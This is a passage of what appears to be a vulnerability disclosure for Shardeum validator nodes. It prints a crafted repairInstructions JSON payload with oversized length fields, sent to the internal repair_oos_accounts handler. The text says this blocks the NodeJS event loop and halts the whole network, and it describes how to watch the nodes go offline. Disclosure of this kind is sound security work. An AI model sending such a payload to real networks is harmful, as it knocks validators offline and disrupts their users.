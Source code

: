     ```
       repairInstructions:[{
       "accountID": "0000000000000000000000000000000000000000",
       "txId": txId,
       "hash":"1231231231231231231231231",
       "accountData":{
         "data":{
             "accountType":0,
             "account":{
                 "storageRoot":{
                     "data":{
                         "length": 4294967294
                     }
                 },
                 "codeHash":{
                     "data":{
                         "length": 4294967294
                     }
                 }
             }
         }
      },
       "targetNodeId": nodeAddr.id,
       "receipt2":{
         "appliedVote":sign({
             "node_id":NODE_ID,
             "transaction_result":"result"
         })
       }
     }]
    ```

    is sent using the internal protocol to `repair_oos_accounts` handler triggering the vulnerability. `Uint8Array.from` will then block NodeJS' event loop, making each validator node unresponsive and practically stopping the network.

Shardeum's monitor dashboard, launched by default on http://localhost:3000/ can be used to check that all active nodes will be now marked as red as they go offline and stop reporting to the monitor. Making any request to the validator nodes will hang, as the network is completely stopped at this point.
